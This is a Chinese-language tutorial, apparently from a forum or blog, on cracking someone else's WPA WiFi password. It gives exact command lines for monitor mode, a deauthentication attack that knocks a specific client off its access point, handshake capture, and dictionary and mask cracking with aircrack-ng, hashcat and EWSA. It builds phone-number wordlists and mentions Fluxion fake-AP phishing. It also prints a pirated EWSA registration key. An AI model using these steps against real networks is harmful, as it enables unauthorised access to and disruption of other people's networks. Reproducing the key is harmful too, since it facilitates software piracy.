



# 拿wifi密码

## 前置条件

1. 一个kali支持的无线网卡，芯片3070/8187/5370都可以。
2. 一个字典，用来跑密码


---

[教程链接](https://tieba.baidu.com/p/7981575504)

这里我使用的是RT3070L芯片的网卡

在虚拟机中启用这个USB设备


终端输入
```
ifconfig
```


发现比之前多了一个 wlan0 网卡

### 

如果你输入ifconfig没有看到 wlan0 网卡
则输入
```
iwconfig
```


如果输入iwconfig能看见 wlan0 网卡，但是输入ifconfig却无法看到，那就是你还没有启用无线网卡

输入【ifconfig -a】.如果看到有wlan0网卡就输入【ifconfig wlan1 up 】然后在输入ifconfig查看网卡是否成功启用。

如果还是不行，尝试重启


如何查看自己的网卡是什么芯片可以使用【lsusb】或者【dmesg -T】


###

使用【airmon-ng start wlan0】开启监听，下面提示找到两个麻烦使用airmon-ng check kill

使用【airmon-ng check kill】之后会整个系统断网，所有不要惊慌。


接下来输入ifconfig查看是否成功开启监听模式。看是否有wlan0mon


###

在root目录下创建wifi_crack文件夹


执行【airodump-ng wlan0mon】


抓不到数据

是否是amd处理器的问题
换inter处理器的电脑试一试
换用inter设备也是同样问题

后经多次实验，得到可以在我amd笔记本电脑的kali虚拟机中抓到数据的步骤

### 正确步骤

启动虚拟机之后，在usb2.0接口插上RT3070L无线网卡
网卡我用风扇散热，过热的话抓不到数据
```airmon-ng check kill```
这时用命令```ifconfig -a```应该能看到wlan0网卡
如果用命令```ifconfig```能看到wlan0网卡，说明这个网卡被启用
用命令```ifconfig wlan0 down```禁用这个网卡
这时用命令```ifconfig```应该看不到wlan0网卡
这时用命令```iwconfig```看到wlan0网卡的模式为Managed
用命令```iwconfig wlan0 mode monitor```将wlan0网卡的模式改为Monitor

用命令```ifconfig wlan0 up```启用这个网卡
如果用命令```ifconfig```能看到wlan0网卡，说明这个网卡被启用
```
airmon-ng start wlan0
```

```
airodump-ng wlan0
```

能抓到数据时的网卡状态


### 



我已经看到我需要的wifi了，下面使用
```shell
airodump-ng wlan0 -c 1 --bssid 94:0C:6D:46:51:52 -w ./
```


到现在为止，我只有一个终端窗口。
请勿多开终端窗口，之前我就遇到有一个吧友多开窗口导致一只抓不到信息。


通过抓去这个指定bssid我已经看到有一个用户连接，STATION可以看到。接下来进行握手包抓取了。


对其中的一个连接进行攻击，使其对AP断开连接。
注意!!此时我上面一个终端窗口并没有停止抓包，而是一只运行着，我下面是新开的一个终端，现在一共打开两个终端窗口。

```shell
aireplay-ng -0 10 -a 94:0C:6D:46:51:52 -c 8A:07:74:A1:D2:D9 wlan0
```


右上角提示拿到了握手包


现在需要字典

[利用kali生成字典的三种方式](https://blog.csdn.net/qq_44204058/article/details/115562895)


###

使用aircrack-ng 对刚才抓取到的握手包进行密码破解

```shell
aircrack-ng -w ./pass_test.txt ./-18.cap
```

-w 指定一个字典文件，我这字典是有Wifi密码的，所以肯定能破解成功。

这里为了测试，我把正确的密码加到了字典文件中


破解成功


###

上面跑字典仅为测试，下面用中国大陆手机号字典

[生成全部中国大陆手机号字典](https://blog.zhouqian.wang/index.php/2023/03/13/crunch-hashcat-%e7%a4%be%e5%b7%a5%e5%af%86%e7%a0%81%e7%bb%84%e5%90%8811%e4%bd%8d%e6%89%8b%e6%9c%ba%e5%8f%b7-%e5%a7%93%e5%90%8d%e7%94%9f%e6%97%a5%e7%bc%a9%e5%86%99%ef%bc%8c%e9%81%bf%e5%85%8d/)

用两本字典来组合


```shell
crunch 9 9 -t %%%%%%%%% -o mobilephone_tail.txt 
```


#### 使用Hashcat破解WPA/PSK密码

握手包格式转换（cap to hc22000）
现在很多关于hashcat的博客关于转换的描述都说是cap转换为hccap格式，但是这种格式其实已经不适用于现在的hashcat版本了，在hashcat6.0版本之后，-m 2500 和 -m 16800 已经被更改为 -m 22000 了

首先要把airodump抓取的cap文件转化为hc22000格式

[在线转换网站](https://hashcat.net/cap2hashcat/)

使用hashcat组合破解模式

```shell
hashcat -a 1 -m 22000 ./1880_1688381391.hc22000 -o wifi_passwd_result.txt mobilephone_head.txt  mobilephone_tail.txt
```


这个就是运行中的结果，在运行过程中可以向终端输入命令s 来查看实时破解状态。

这里在kali虚拟机中的破解速度很慢，那就用windows宿主机破解

### EWSA跑包

在windows系统中安装EWSA

[EWSA软件下载网址](https://www.jb51.net/softs/359426.html)

下载后解压并安装

可用的注册码
```
EWSA-173-HC1UW-L3EGT-FFJ3O-SOQB3
```

导入cap格式的文件


使用掩码破解

我们点一下“添加”按钮，输入356789，确定。

然后修改一下掩码，在8个?d前面加上1?1?d，点击应用、确定。这里第一个1没别的意思，就是1的意思，我们的手机号都是1开头的，?1里面的1是我们刚刚添加的一个定义，默认分到的序号是1，我们手机号的第二位都是256789，没有其他数字，?d是为了凑齐十一位数。
点击开始破解，掩码攻击，就开始破解以手机号为密码的WiFi密码了。




开始掩码攻击


发现核显的电脑比独显的电脑慢很多，换用独显电脑


破解成功


---


首先要有RT3070或螃蟹卡8187，网上都有卖，最多30搞定。

虚拟机安装kali，里面有各种破解软件，相关教程也可以到网上找到，比如Aircrack-ng，使用单独网卡可以搞定；如果是使用Fluxion 等社会工程方式破解，则需要两种不同的网卡，即RT3070和螃蟹卡8187各买一张。

网卡找字典，做好长跑还未必跑的出来的准备。一般来说，字典越大，破解的几率越大，但耗时也越长。速度比较快的破解方式是hash码表，8位密码秒破，但现在的密码很少有8位的，并且生成hash码表比较耗时，更让人**的是一个essid只对应一个hash码表，也就是每个wifi信号都需要重新生成一次……。如果你运气比较好，对方有开放pin那最好了，最多半小时搞定。


---


这个得看你的笔记本网卡是否支持监听。一般支持的概率比较低。不过可以先试试。用airmon-ng先设置监听，试试。

vmware是不能使用实体机的内置网卡，只能使用USB接口的网卡。


---


就是做伪AP。很经典的欺骗方式。
luxion可以做到